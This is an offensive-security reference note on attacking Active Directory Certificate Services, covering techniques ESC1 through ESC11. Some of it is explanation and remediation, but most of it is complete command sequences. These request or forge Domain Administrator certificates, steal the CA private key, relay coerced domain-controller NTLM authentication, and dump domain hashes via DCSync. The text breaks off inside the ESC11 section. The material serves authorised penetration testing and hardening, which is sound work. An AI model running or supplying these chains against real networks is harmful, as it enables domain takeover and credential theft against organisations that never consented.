

# ADCS

#ADCS #ActiveDirectoryCertificateServices #certificates #ESC #Certipy #PKI

## What is ADCS?

Active Directory Certificate Services — Microsoft PKI implementation. Issues digital certificates for auth, encryption, and code signing. Misconfigurations in certificate templates and CA settings allow privilege escalation to Domain Admin via certificate-based authentication (PKINIT) or Schannel. Primary attack research: SpecterOps "Certified Pre-Owned" (2021); the numbered **ESC1–ESC17** scheme grew out of it and is what Certipy detects today.

> [!note] Protocol reference — the NTLM challenge-response that **ESC8** relays to web enrollment: [[Standards & Protocols/NTLM|NTLM]].
> [!note] Protocol reference — the X.509 certificate model (EKU / SAN / PKINIT) every ESC abuses: [[Standards & Protocols/X509-PKI|X.509 / PKI]].

- **Web Enrollment**: TCP 80/443 — `http://<CA>/certsrv/`
- **RPC/DCOM**: TCP 135 + dynamic — certificate enrollment via MS-ICPR / DCOM
- **LDAP**: TCP 389/636 — template and CA object enumeration; 636 (LDAPS) is also the **Schannel** auth surface for ESC10
- CA server is typically a dedicated server or the DC itself

> [!warning] **On Kali/Debian the binary is `certipy-ad`, not `certipy`.** The `certipy` name on PyPI belongs to an unrelated project, so the Debian package (`python3-certipy-ad`) installs the entrypoint as **`certipy-ad`**. Every command below is written as `certipy` to match upstream docs — alias it once per shell, or they all fail with `command not found`:
> ```bash
> alias certipy=certipy-ad          # Kali / apt install
> certipy-ad -v                     # confirm: "Certipy v5.1.0 - by Oliver Lyak (ly4k)"
> ```

> [!important] **Certipy v4 → v5 broke syntax.** v5 reorganised several subcommands — notably `template` (no more `-save-old`) and the relay/officer flags. Commands copied from pre-2025 blog posts will fail. Everything in this note is verified against **Certipy 5.1.0**. Check yours with `certipy -v` before debugging a "broken" attack.

---

## Key Concepts

| Term | Description |
|---|---|
| CA | Certificate Authority — issues certificates |
| Root CA | Top of PKI chain — trust anchor |
| Subordinate CA | Issues certs on behalf of Root CA |
| Certificate Template | Blueprint defining what a cert can be used for |
| EKU | Extended Key Usage — defines allowed cert purposes |
| SAN | Subject Alternative Name — alternate identities in cert |
| PKINIT | Kerberos extension for certificate-based auth |
| Schannel | Windows TLS provider — the *other* cert auth path (LDAPS, IIS); maps certs by its own rules, not PKINIT's |
| SID security extension | `szOID_NTDS_CA_SECURITY_EXT` (OID `1.3.6.1.4.1.311.25.2`) — embeds the requester's SID so the DC can map the cert **strongly**. Added by the May 2022 Certifried patches |
| `CT_FLAG_NO_SECURITY_EXTENSION` | Template flag `0x80000` in `msPKI-Enrollment-Flag` — suppresses the SID extension. This *is* ESC9 |
| `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` | Template flag — requester, not AD, supplies the subject/SAN. The core of ESC1 (client auth) and ESC17 (server auth) |
| NTLM Relay | Relay auth to `/certsrv/` (ESC8) or the ICPR RPC interface (ESC11) for cert issuance |
| EPA / Channel Binding | Extended Protection for Authentication — binds NTLM to the TLS channel. Its **absence** is what makes ESC8 work over HTTPS |
| Shadow Credentials | Writing `msDS-KeyCredentialLink` on an account to add an attacker-controlled key-trust credential (the usual way to *become* a victim account in ESC9/10/16) |
| OID Group Link | `msDS-OIDToGroupLink` — links an Issuance Policy OID to a universal AD group, so enrolling implies group membership (ESC13) |
| `altSecurityIdentities` | Multi-valued attribute holding **explicit** cert→account mappings. Weak values are ESC14 |

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/AD/Certipy\|Certipy]] | Primary Linux tool — enumerate templates/CAs, request/forge certificates, relay, PKINIT + Schannel auth |
| [[Tools/AD/Certify\|Certify.exe]] | Windows C# enumeration/request tool (GhostPack) |
| [[Tools/Lateral Movement/Rubeus\|Rubeus]] | Windows — request TGT from a certificate, inject ticket |
| [[Tools/AD/PKINITtools\|PKINITtools]] | Linux PKINIT auth scripts, `gettgtpkinit.py` / `getnthash.py` |
| [[Tools/Lateral Movement/impacket\|impacket]] | `secretsdump.py`, general post-cert tooling |
| [[Tools/Lateral Movement/ntlmrelayx\|ntlmrelayx]] | Relay coerced NTLM auth to the CA Web Enrollment endpoint (ESC8) |
| [[Tools/Credential Dumping/secretsdump\|secretsdump]] | DCSync using a recovered machine-account hash |
| [[Tools/Auth/impacket-psexec\|impacket-psexec]] | PtH/PtT shell after obtaining a cert-derived hash or ticket |
| [[Tools/Lateral Movement/Evil WinRM\|evil-winrm]] | WinRM shell using a cert-derived NT hash |
| [[Tools/Lateral Movement/PetitPotam\|PetitPotam.py]] | Coerce NTLM auth (MS-EFSRPC, unauth on unpatched) for ESC8/ESC11 |
| [[Tools/Lateral Movement/PrinterBug\|printerbug.py]] | Coerce NTLM auth (MS-RPRN) for ESC8; see [[Tools/Lateral Movement/Coercer\|Coercer]] for a maintained multi-technique alternative |
| [[Tools/AD/ldapsearch\|ldapsearch]] | Raw template/CA object enumeration when Certipy is unavailable; reading `altSecurityIdentities` for ESC14 |
| [[Tools/AD/bloodyAD\|bloodyAD]] | Writes the AD attributes Certipy can't — `altSecurityIdentities` (ESC14), `msDS-KeyCredentialLink`, UPN |
| [[Tools/AD/PowerView\|PowerView]] | Windows-side equivalent — `Set-DomainObject` for `altSecurityIdentities`/UPN writes |
| [[Tools/Web/openssl\|openssl]] | Convert Certify's PEM output to the PFX Rubeus needs |
| [[Tools/File Transfer/certutil\|certutil]] | On the CA itself — `-getreg`/`-setreg` to read or fix `EDITF_ATTRIBUTESUBJECTALTNAME2` and `DisableExtensionList` |
| [[Tools/Lateral Movement/wsuks\|wsuks]] | ESC17 payload stage — impersonate the WSUS server with the fraudulent TLS cert and serve a malicious update |

---

## Enumeration

```bash
# Certipy — find all vulnerabilities in one shot
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip>
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -vulnerable -stdout
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -json
certipy find -u <user>@<domain> -hashes :<NTLM> -dc-ip <dc_ip> -vulnerable -stdout

# Output formats — -csv and -text are v5 additions; -output sets the filename prefix
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -csv -output engagement
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -oids -stdout   # ESC13 issuance policies
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -enabled -hide-admins

# Certify.exe (Windows)
.\Certify.exe cas                           # enumerate CAs
.\Certify.exe find                          # all templates
.\Certify.exe find /vulnerable              # only vulnerable templates
.\Certify.exe find /vulnerable /currentuser

# List certificate templates via LDAP
ldapsearch -H ldap://<dc_ip> -x -D "<user>@<domain>" -w '<pass>' \
  -b "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=com" \
  "(objectClass=pKICertificateTemplate)" name msPKI-Certificate-Name-Flag msPKI-Enrollment-Flag pkiExtendedKeyUsage
```

| Flag | Description |
|---|---|
| `-vulnerable` | Only templates Certipy scores as exploitable **by the authenticating principal**, resolving nested group membership |
| `-stdout` | Print to console instead of writing files |
| `-json` / `-csv` / `-text` | Machine-readable / spreadsheet / formatted-text output |
| `-output <prefix>` | Filename prefix for the written results |
| `-enabled` | Only templates actually published by a CA — cuts the noise from defined-but-unissued templates |
| `-oids` | Dump Issuance Policy OIDs and their `msDS-OIDToGroupLink` values — this is how you spot **ESC13** |
| `-hide-admins` | Suppress administrator ACEs so the permissions blocks stay readable |
| `-dc-only` | Pull from the DC only — skips CA security/config and the Web Enrollment check. **Quieter, but it blinds you to ESC6/ESC8/ESC16**, which are CA-level |

> [!tip] **Read the `Remarks` block, not just `Vulnerabilities`.** Certipy prints `[*] Remarks ESC9 : Other prerequisites may be required for this to be exploitable.` for the mapping-dependent ESCs (9, 10, 16, 17). That is not boilerplate — it means *this only lands if the DC's binding mode allows it*. Resolve that with the [[#Certificate Mapping and Strong Binding (KB5014754)]] section below before you report it as exploitable.

### Offline Enumeration — No Domain Credentials

`certipy parse` (v5) assesses AD CS from **exported registry data** instead of a live LDAP session. This is the move when you have a shell on the CA (or a host with the template cache) but no usable domain credentials, or when you want to audit from a client-provided export without touching the network.

```bash
# On the CA / a domain-joined host — export the template + CA registry hives
reg export "HKLM\SOFTWARE\Microsoft\Cryptography" templates.reg

# Offline, on your box — Certipy scores it exactly as 'find' would
certipy parse templates.reg -format reg -vulnerable -stdout
certipy parse templates.reg -format reg -domain corp.local -ca CORP-CA -json

# Treat specific SIDs as attacker-owned to model reachability
certipy parse templates.reg -format reg -sids 'S-1-5-21-...-1103,S-1-5-21-...-513' -vulnerable -stdout
```

| Flag | Description |
|---|---|
| `-format bof\|reg` | Input is a Cobalt Strike BOF dump (default) or a Windows `.reg` export |
| `-sids <a,b>` | Consider these SIDs owned when scoring — turns "who could exploit this" into "can *we*" |
| `-published <t1,t2>` | Mark templates as published in AD (the registry export alone doesn't say) |
| `-domain` / `-ca` | Output context only — cosmetic, but keeps multi-CA engagements straight |

---

## Certificate Mapping and Strong Binding (KB5014754)

**Read this before claiming ESC9, ESC10, ESC14 or ESC16.** Those four are not template bugs you can exploit on sight — they are *fallbacks* that only fire when the domain still permits weak certificate→account mapping. Since **11 February 2025** the enforcing update flips domains to Full Enforcement by default, and Microsoft's timeline removed the opt-out registry key with the **9 September 2025** update. In a patched, modern domain these four are frequently **findings, not paths**.

### Kerberos PKINIT — `StrongCertificateBindingEnforcement`

`HKLM\SYSTEM\CurrentControlSet\Services\Kdc` → `StrongCertificateBindingEnforcement` (REG_DWORD)

| Value | Mode | Effect on the attacker |
|---|---|---|
| `0` | Disabled | No strong-mapping check at all. ESC9/ESC16 UPN-swap works freely |
| `1` | Compatibility | Tries the SID extension; **falls back to SAN UPN/DNS if it's absent**. This is the window ESC9/ESC16 live in. Was the default May 2022 → Feb 2025 |
| `2` | Full Enforcement | Requires a strong mapping or a valid SID. Plain UPN-swap dies here |

### Schannel TLS — `CertificateMappingMethods`

`HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL` → `CertificateMappingMethods` (DWORD, bitmask)

| Bit | Mapping method | Strength |
|---|---|---|
| `0x0001` | Subject/Issuer | Weak |
| `0x0002` | Issuer | Weak |
| `0x0004` | **UPN** | Weak — **this bit is ESC10** |
| `0x0008` | S4U2Self | Strong |
| `0x0010` | S4U2Self explicit | Strong |

Secure target value is `0x18` (the two strong bits). Anything including `0x4` — `0x4`, `0xC`, `0x1C`, the legacy `0x1F` — leaves LDAPS open to the ESC10 UPN swap. Note this key is **independent of `StrongCertificateBindingEnforcement`**: a domain in Full Enforcement for Kerberos can still be wide open over Schannel.

### Explicit Mappings via altSecurityIdentities

| Format | Example | Strength |
|---|---|---|
| `X509:<I>Issuer<S>Subject` | `X509:<I>CN=CORP-CA<S>CN=Admin` | **Weak** |
| `X509:<S>Subject` | `X509:<S>CN=Admin` | **Weak** |
| `X509:<RFC822>email` | `X509:<RFC822>admin@corp.local` | **Weak** |
| `X509:<I>Issuer<SR>Serial` | `X509:<I>CN=CORP-CA<SR>1200000012ab` | Strong |
| `X509:<SKI>keyid` | `X509:<SKI>aabbcc...` | Strong |
| `X509:<SHA1-PUKEY>hash` | `X509:<SHA1-PUKEY>aabbcc...` | Strong |

A weak value on a privileged account is ESC14: get *any* certificate that satisfies that string and you are that account.

### Decision tree



> [!important] **What still works at Full Enforcement.** ESC1/2/3/4/6/7/8/11/12/13/15/17 do not depend on weak mapping — they either get a *legitimately* strong cert for the target or bypass mapping entirely. The **ESC6 + ESC9/ESC16 combination** also survives: ESC6 lets you inject the target's SID as a SAN URL (`URL=tag:microsoft.com,2022-09-14:sid:<SID>`, which Certipy writes for you via `-sid`), and the KDC honours that SID when the security extension is absent. That is why `-sid` appears in so many v5 commands below — always pass it when you know the target RID.

---

## Connect / Access

Once any technique below yields a certificate (`Administrator.pfx` etc.), this is how you turn it into a usable session.

### Linux (Certipy + PKINITtools)

```bash
# Option A — certipy auth (simplest)
certipy auth -pfx Administrator.pfx -dc-ip <dc_ip>
# Outputs: TGT (.ccache) + NT hash

# Pin the identity when the cert carries several, or when the SAN is a bare sAMAccountName
certipy auth -pfx Administrator.pfx -dc-ip <dc_ip> -username Administrator -domain <domain>

# Option B — PKINITtools (manual)
python3 gettgtpkinit.py -cert-pfx Administrator.pfx <domain>/Administrator Administrator.ccache
export KRB5CCNAME=Administrator.ccache
python3 getnthash.py -key <AS_REP_key> <domain>/Administrator

# Use TGT
export KRB5CCNAME=Administrator.ccache
impacket-psexec <domain>/Administrator@<target> -k -no-pass
impacket-secretsdump <domain>/Administrator@<dc_ip> -k -no-pass
```

| Flag | Description |
|---|---|
| `-username` / `-domain` | Override the identity extracted from the cert — needed for bare-UPN certs (ESC16) and cross-domain |
| `-no-hash` | Skip the UnPAC-the-hash step. Use it when you only want the TGT and want to avoid the extra KDC exchange |
| `-kirbi` / `-print` | Save or print the TGT in Kirbi format for handing to Rubeus on Windows |
| `-ldap-shell` | Authenticate over **Schannel to LDAPS** instead of PKINIT — see below |

### Schannel fallback — when PKINIT is unavailable

PKINIT needs the KDC to hold a valid `Domain Controller`/`Kerberos Authentication` certificate. If the CA never issued one (common in labs and small estates), `certipy auth` fails with a KDC error even though your certificate is perfectly good. **The certificate is still usable** — Schannel against LDAPS is a separate mapping path:

```bash
certipy auth -pfx Administrator.pfx -dc-ip <dc_ip> -ldap-shell
# Authenticated to '<dc_ip>' as: 'u:CORP\Administrator'
# Type help for list of commands
```

The resulting LDAP shell supports the usual privileged writes — `add_user`, `add_user_to_group`, `set_rbcd`, `change_password` — which is often enough to convert cert access into a shell without ever getting a TGT. This is also the *only* path for ESC10, whose whole premise is Schannel mapping.

### Windows (Rubeus)

```powershell
# Convert PEM cert to PFX (if needed)
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Get TGT from cert
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:<pfx_pass> /ptt

# Verify TGT injected
klist

# Access target
dir \\<dc_hostname>\C$
.\PsExec.exe \\<dc_hostname> cmd.exe
```

> [!tip] Certipy can do the conversion too, and does not need the Windows CSP string: `certipy cert -pfx in.pfx -export -out out.pfx`, or split a PFX into its parts with `-nokey` / `-nocert`.

### Using the recovered NT hash instead of a ticket

```bash
impacket-psexec <domain>/Administrator@<target> -hashes :<NT_hash>
evil-winrm -i <target> -u Administrator -H <NT_hash>
```

---

## Attack Vectors

### ESC1 — Misconfigured Certificate Template (SAN Specification)

**Conditions:** template allows enrollee to specify SAN (`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`), EKU includes Client Authentication (or Smart Card Logon / Any Purpose), low-privileged users can enroll, no manager approval and no authorized signatures required.

```bash
# Certipy — request cert as Domain Admin. Pass -sid so the cert survives Full Enforcement.
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' \
  -template '<Vulnerable_Template>' \
  -upn Administrator@<domain> \
  -sid 'S-1-5-21-<domain>-500'
# Output: Administrator.pfx — see Connect / Access above to use it

# Certify.exe + Rubeus (Windows)
.\Certify.exe request /ca:<domain>\<CA_Name> /template:<Template> /altname:Administrator
# Save output as cert.pem, convert:
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:<pfx_pass> /ptt
```

> [!tip] **Enrollment protocol selection (v5).** `certipy req` defaults to RPC (MS-ICPR). If that is filtered or the CA only exposes the web interface, switch transport rather than giving up: `-web` (HTTP web enrollment), `-dcom` (DCOM/MS-WCCE), `-dynamic-endpoint` (dynamic TCP instead of the named pipe), plus `-http-scheme https -http-port 443` and `-no-channel-binding` for the web path.

### ESC2 — Any Purpose / No EKU Template

**Conditions:** template has Any Purpose EKU (`2.5.29.37.0`), or no EKU at all; low-privileged users can enroll.

```bash
# Same exploitation path as ESC1 — request cert, specify SAN
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<Template>' \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
certipy auth -pfx Administrator.pfx -dc-ip <dc_ip>
```

### ESC3 — Enrollment Agent Template Abuse

**Conditions:** one template has the Certificate Request Agent EKU (`1.3.6.1.4.1.311.20.2.1`) with low-priv enrollment; a second template allows an enrollment agent to enroll on behalf of another user.

```bash
# Step 1: Get enrollment agent certificate
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<EnrollmentAgent_Template>'
# Output: <user>.pfx

# Step 2: Use enrollment agent cert to request cert on behalf of DA
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<Template2>' \
  -on-behalf-of '<domain>\Administrator' \
  -pfx <user>.pfx
# Output: Administrator.pfx
```

### ESC4 — Write Access on Certificate Template

**Conditions:** low-privileged user has write permissions (`WriteDacl`/`WriteProperty`/`GenericAll`) on a template object.

You are not exploiting the template as-found — you are **rewriting it into an ESC1 template**, using it, then putting it back. v5 renamed every flag involved.

```bash
# Step 1: Back up the current configuration BEFORE touching anything
certipy template -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -template '<Template>' -save-configuration <Template>.json

# Step 2: Overwrite it with Certipy's built-in ESC1 configuration
certipy template -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -template '<Template>' -write-default-configuration -force

# Step 3: Exploit it as ESC1
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<Template>' \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
certipy auth -pfx Administrator.pfx -dc-ip <dc_ip>

# Step 4: RESTORE — from the JSON saved in step 1
certipy template -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -template '<Template>' -write-configuration <Template>.json -force
```

| Flag | Description |
|---|---|
| `-save-configuration <file>` | Dump the current template config to JSON. Certipy also auto-backs-up unless you pass `-no-save` |
| `-write-default-configuration [sid]` | Apply Certipy's stock ESC1 config. Optional SID argument grants ESC1 rights to that principal instead of `S-1-5-11` (Authenticated Users) |
| `-write-configuration <file>` | Apply a config from JSON — this is the restore path |
| `-force` | Skip the interactive confirmation prompt |
| `-no-save` | Do **not** auto-backup before writing |

> [!warning] **Two ways to lock yourself out.** (1) `-template` is **case-sensitive** — a mismatched name silently targets nothing. (2) Passing a SID to `-write-default-configuration` for an account you do *not* control means you lose the rights needed to restore the template. Always take the `-save-configuration` backup first, and restore before you leave — a rewritten production template is a live outage, not a finding.

### ESC5 — Vulnerable PKI Object Access Control

**Conditions:** attacker has control (WriteDACL/WriteOwner/GenericAll) over a PKI-related AD object other than a template — the CA server's computer object, the CA's AD container, the NTAuthCertificates object, or the Certificate Templates container. Local admin on the CA server is the most direct path, since it grants access to the private key on disk.

```bash
# With local admin on the CA server — extract CA cert + private key (needs -target, this is an SMB/RPC op)
certipy ca -ca '<CA_Name>' -target <CA_host> -backup \
  -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip>
# Output: <CA_Name>.pfx

# Forge a certificate for any user with the stolen CA key ("Golden Certificate")
certipy forge -ca-pfx '<CA_Name>.pfx' -upn Administrator@<domain> \
  -sid 'S-1-5-21-<domain>-500' -crl 'ldap:///'

# Authenticate
certipy auth -pfx Administrator_forged.pfx -dc-ip <dc_ip>
```

### ESC6 — EDITF_ATTRIBUTESUBJECTALTNAME2 Flag on CA

**Conditions:** CA has `EDITF_ATTRIBUTESUBJECTALTNAME2` set, allowing SAN specification in *any* certificate request regardless of template settings.

```bash
# Exploit — request cert with SAN using any enrollable template
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template User \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
certipy auth -pfx Administrator.pfx -dc-ip <dc_ip>

# Certify.exe (Windows)
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:<domain>\<CA_Name> /template:User /altname:Administrator

# Confirm/remediate on the CA itself
certutil -getreg policy\EditFlags
certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2 && net stop certsvc && net start certsvc
```

> [!important] ESC6 is the **force multiplier for ESC9 and ESC16**. On its own the May 2022 patches blunted it; combined with a missing SID extension it lets you inject the target's SID as a SAN URL and beat Full Enforcement. Always check for ESC6 before writing off an ESC9/ESC16 finding.

### ESC7 — Vulnerable CA Access Control

**Conditions:** user has `Manage CA` **or** `Manage Certificates` permission on the CA.

The critical detail most write-ups skip: with `Manage CA` **only**, you cannot approve requests — but you can grant yourself the officer (`Manage Certificates`) role, and you can publish the `SubCA` template. Those two steps are what make `Manage CA` alone a path to DA.

```bash
# Step 1: Grant yourself the officer role (skip if you already hold Manage Certificates)
certipy ca -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -add-officer '<user>'

# Step 2: Publish the SubCA template if it isn't already enabled
certipy ca -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -list-templates
certipy ca -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -enable-template 'SubCA'

# Step 3: Request a SubCA cert for the DA. This FAILS by design
#         (CERTSRV_E_TEMPLATE_DENIED) — say 'y' to save the private key, note the request ID.
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template 'SubCA' \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
# [*] Request ID is 1  /  [*] Wrote private key to '1.key'

# Step 4: Issue the denied request using the officer role
certipy ca -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -issue-request 1

# Step 5: Retrieve it — Certipy pairs the cert with the matching <ID>.key from step 3
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -retrieve 1
```

> [!warning] Step 3 **must** be run from the directory holding `1.key`, and you must answer `y` to the "save the private key?" prompt. Say no and the issued certificate in step 5 is useless — there is no way to recover the key, and you have to start over with a fresh request ID. Clean up afterwards with `-remove-officer` and `-disable-template`.

### ESC8 — NTLM Relay to AD CS HTTP Endpoint

**Conditions:** Web Enrollment (`/certsrv/`) exposed, NTLM auth enabled (default), **EPA/Channel Binding not enforced**, attacker can coerce NTLM auth from `DC$` or another machine account.

HTTPS alone does **not** stop this. Certipy's `find` flags it explicitly as `Web Enrollment is enabled over HTTPS and Channel Binding is disabled.` — look for `Channel Binding (EPA) : False` in the CA block.

```bash
# Option A — Certipy's own relay (v5)
certipy relay -target 'http://<CA_host>' -template DomainController
certipy relay -target 'https://<CA_host>' -template DomainController -forever

# Option B — impacket
sudo impacket-ntlmrelayx -t http://<CA_host>/certsrv/certfnsh.asp \
  --adcs --template DomainController
sudo impacket-ntlmrelayx -t http://<CA_host>/certsrv/certfnsh.asp \
  --adcs --template Machine        # for workstation accounts

# Step 2: Coerce DC authentication to attacker
python3 printerbug.py <domain>/<user>:<pass>@<dc_ip> <attacker_ip>       # MS-RPRN
python3 PetitPotam.py -u '' -p '' <attacker_ip> <dc_ip>                  # MS-EFSRPC, unauth on unpatched
python3 PetitPotam.py -u <user> -p '<pass>' <attacker_ip> <dc_ip>

# Step 3: ntlmrelayx outputs base64 cert — save as DC.pfx (certipy relay writes the .pfx directly)
echo '<base64>' | base64 -d > DC.pfx

# Step 4: Auth as DC$ → DCSync
certipy auth -pfx DC.pfx -dc-ip <dc_ip>
impacket-secretsdump -hashes :<DC_NT_hash> '<domain>/DC$'@<dc_ip>
```

| `certipy relay` flag | Description |
|---|---|
| `-target <proto>://<host>` | `http://`/`https://` for ESC8, `rpc://` for ESC11 |
| `-template` | Defaults to `Machine` or `User` based on whether the relayed name ends in `$`. **Relaying a DC needs `DomainController` explicitly** |
| `-forever` | Keep relaying instead of exiting after the first success — use with a coercion loop |
| `-no-skip` | Don't skip accounts already relayed once |
| `-enum-templates` | Enumerate templates through the relayed session instead of requesting |
| `-interface` / `-port` | Bind address and port for the listener |

> [!warning] **Certipy's relay only targets classic Web Enrollment (`/certsrv/certfnsh.asp`).** It does **not** relay to CES (`/<CA>_CES_Kerberos/service.svc`) or CEP, which use WS-Trust. If `find` shows CES/CEP but no `/certsrv/`, this specific tooling won't land it. Note also that Windows Server 2025 ships Web Enrollment with **EPA enabled by default** on new installs — upgraded servers are the ones still exposed.

### ESC9 — No Security Extension on Certificate Template

**Conditions:** template sets `CT_FLAG_NO_SECURITY_EXTENSION` (`0x80000` in `msPKI-Enrollment-Flag`) so issued certs carry **no SID**, the template allows Client Authentication, and you can enroll. **Plus** either the DC is at `StrongCertificateBindingEnforcement` 0 or 1, *or* the CA is also ESC6.

Certipy flags it as `ESC9 : Template has no security extension.` with `Enrollment Flag : NoSecurityExtension`.

```bash
# --- Scenario A: UPN swap. Needs binding enforcement 0 or 1, plus GenericWrite over a victim account.

# 1. Record the victim's real UPN so you can put it back
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -user victim read

# 2. Point the victim's UPN at the target's sAMAccountName
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -upn 'administrator' -user victim update

# 3. Become the victim (shadow credentials — you already have the write rights)
certipy shadow -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -account victim auto
export KRB5CCNAME=victim.ccache

# 4. Enroll as the victim. The cert gets UPN 'administrator' and NO SID extension.
certipy req -k -dc-ip <dc_ip> -target <CA_host> -ca '<CA_Name>' -template '<ESC9_Template>'

# 5. REVERT the UPN immediately
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -upn 'victim@<domain>' -user victim update

# 6. Authenticate as the target
certipy auth -pfx administrator.pfx -dc-ip <dc_ip> -username administrator -domain <domain>

# --- Scenario B: ESC9 + ESC6. Works even at Full Enforcement (binding = 2).
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<ESC9_Template>' \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
certipy auth -pfx administrator.pfx -dc-ip <dc_ip>
```

> [!warning] **Step 5 is not optional housekeeping.** Between steps 2 and 5 the victim account's UPN collides with a real principal — logons, mail routing and federated SSO for that user can break, and a collision with a live admin UPN is a production incident. Revert immediately, and record the original value before you start.

### ESC10 — Weak Certificate Mapping for Schannel

**Conditions:** the DC's Schannel `CertificateMappingMethods` includes the `0x4` UPN bit; you have GenericWrite over a victim account that can enroll for any client-auth template. Independent of `StrongCertificateBindingEnforcement` — this is why a "fully enforced" domain can still fall.

Machine accounts are the best targets: they have no UPN by default, so setting a victim's UPN to `dc$@<domain>` collides with nothing.

```bash
# 1–3: identical to ESC9 Scenario A, but target a machine account
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -user victim read
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -upn 'dc$@<domain>' -user victim update
certipy shadow -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -account victim auto
export KRB5CCNAME=victim.ccache

# 4: enroll from any client-auth template — 'User' will do
certipy req -k -dc-ip <dc_ip> -target <CA_host> -ca '<CA_Name>' -template 'User'

# 5: revert
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -upn 'victim@<domain>' -user victim update

# 6: authenticate over SCHANNEL, not PKINIT — the cert's SID is still the victim's,
#    but Schannel maps on the UPN and hands you DC$
certipy auth -pfx dc.pfx -dc-ip <dc_ip> -ldap-shell
# Authenticated to '<dc_ip>' as: 'u:CORP\DC$'
# → set_rbcd / add_user_to_group from the LDAP shell
```

> [!note] Certipy cannot *detect* ESC10 — reading `CertificateMappingMethods` needs local admin on the DC. `certipy find` will never print "ESC10". You confirm it from a DC shell (`reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL" /v CertificateMappingMethods`), from a client configuration review, or empirically — by running the attack.

### ESC11 — NTLM Relay to ICPR (RPC, Not HTTP)

**Conditions:** the CA's `ICertPassage` RPC interface (MS-ICPR) doesn't enforce RPC encryption/sealing (`IF_ENFORCEENCRYPTICERTREQUEST` unset) — same idea as ESC8, but over RPC instead of HTTP, so it works even when Web Enrollment isn't exposed.

```bash
# Relay coerced NTLM auth straight to the RPC interface. -ca is REQUIRED for rpc:// targets.
certipy relay -target 'rpc://<CA_host>' -ca '<CA_Name>' -template DomainController

